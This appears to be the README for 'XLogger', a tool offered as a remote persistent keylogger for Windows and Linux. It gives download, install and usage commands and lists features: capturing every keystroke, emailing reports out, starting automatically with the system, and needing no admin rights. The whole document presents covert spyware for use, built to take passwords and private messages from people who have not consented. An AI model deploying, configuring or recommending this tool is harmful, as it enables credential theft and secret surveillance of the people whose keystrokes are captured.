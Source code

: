 # XLogger
Remote persistent keylogger for Windows and Linux.


## Commands :

### Download
git clone https://github.com/XPR1M3/XLogger.git

### Installation
chmod +x install.sh

./install.sh

### Usage
python xlogger.py

#### For Windows
python xlogger.py -i [time count in second] -w -e [Email] -p [password] -o [file name]

#### For Linux 
python xlogger.py -i [time count in second] -w -e [Email] -p [password] -o [file name]


### Features:

Logs keys pressed on keyboard.
Sends reports by email.
Starts with system startup.
Works with Linux and Windows.
Does not require root or admin privileges.


